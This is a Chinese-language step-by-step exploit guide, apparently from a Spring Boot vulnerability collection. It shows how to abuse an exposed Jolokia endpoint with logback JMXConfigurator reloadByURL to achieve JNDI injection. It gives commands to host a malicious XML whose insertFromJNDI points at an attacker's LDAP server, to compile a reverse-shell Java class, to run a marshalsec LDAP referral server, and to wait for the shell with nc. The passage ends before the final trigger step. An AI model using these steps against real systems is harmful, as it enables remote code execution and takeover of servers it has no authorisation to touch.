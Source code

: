 ##### 步骤一：查看已存在的 MBeans

访问 `/jolokia/list` 接口，查看是否存在 `ch.qos.logback.classic.jmx.JMXConfigurator` 和 `reloadByURL` 关键词。



##### 步骤二：托管 xml 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```



在根目录放置以 `xml` 结尾的 `example.xml`  文件，内容如下：

```xml
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/JNDIObject" as="appName" />
</configuration>
```



##### 步骤三：准备要执行的 Java 代码

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java)  `JNDIObject.java`，

使用兼容低版本 jdk 的方式编译：

```bash
javac -source 1.5 -target 1.5 JNDIObject.java
```

然后将生成的 `JNDIObject.class` 文件拷贝到 **步骤二** 中的网站根目录。



##### 步骤四：架设恶意 ldap 服务

下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 ldap 服务：

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389
```



##### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lv 443
```


